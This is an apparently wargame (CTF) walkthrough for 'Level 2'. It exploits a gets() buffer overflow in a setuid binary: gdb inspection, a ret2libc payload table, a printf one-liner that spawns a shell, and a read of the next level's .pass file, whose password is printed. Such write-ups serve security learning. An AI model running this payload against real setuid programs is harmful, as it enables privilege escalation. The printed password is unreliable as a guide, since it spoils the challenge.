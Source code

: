 # Level 2 Walkthrough

1. **Connect to the target machine**

	```bash
	ssh level2@<vm-ip> -p 4242
	```

2. **Check the files**

	```bash
	ls -l
	```

	Output:

	```
	-rwsr-s---+ 1 level3 users 5138 Mar  6  2016 level2
	```

3. **Test the binary**

	```bash
	./level2
	```

	It waits for input, echoes the input, and exits..


4. **Copy the binary locally for analysis**

	```bash
	scp -P 4242 level2@<vm-ip>:/home/user/level2/level2 .
	```

5. **Disassemble and inspect with Ghidra**

	The vulnerable function:

	```c
	void p() {
		char buffer[76];
		gets(buffer);			// vulnerable
		...
		strdup(buffer);			// return value used later
	}
	```

6. **Inspect in GDB step-by-step**

	Launch and break at `main`:

	```bash
	gdb level2
	(gdb) b main
	(gdb) run
	```

	Break inside vulnerable function `p()`:

	```gdb
	(gdb) b p
	(gdb) c
	```

	Set a breakpoint just after `strdup()`:

	```gdb
	(gdb) disas
	(gdb) b *0x0804853d
	(gdb) c
	```

	Input `/bin/sh` when prompted:

	```
	/bin/sh
	```

	Confirm `strdup()` returned `/bin/sh` string:

	```gdb
	(gdb) x/s $eax
	0x804a008:	 "/bin/sh"
	```

	This confirms the memory address to pass to `system()`.

	Also found:

	* `system()` address: `0xb7e6b060`
	* `exit()` address:	`0xb7e5ebe0`
	* Address after `strdup()`: `0x0804a008` (returns `/bin/sh`)

7. **Construct the payload**

	Total buffer size:

	* 76 bytes (buffer)
	* +4 bytes (saved EBP)
	* Total = 80 bytes before return address.

	Final payload structure:

	| Component     | Bytes | Purpose                                     |
	| ------------- | ----- | ------------------------------------------- |
	| `/bin/sh\x00` | 8     | String to be duplicated via `strdup()`      |
	| `"A" * 72`    | 72    | Fills buffer up to saved EBP                |
	| `0x0804853e`  | 4     | Return to instruction *after* `strdup()`    |
	| `0xb7e6b060`  | 4     | Address of `system()`                       |
	| `0xb7e5ebe0`  | 4     | Address of `exit()`                         |
	| `0x0804a008`  | 4     | Pointer to `/bin/sh` (return from `strdup`) |

8. **Execute the exploit**

	```bash
	(printf "/bin/sh\x00"; printf 'A%.0s' {1..72}; printf '\x3e\x85\x04\x08\x60\xb0\xe6\xb7\xe0\xeb\xe5\xb7\x08\xa0\x04\x08\n'; cat) | ./level2
	```

9. **Read the password**

	```bash
	whoami
	cat /home/user/level3/.pass
	```

	Output:

	```
	492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
	```
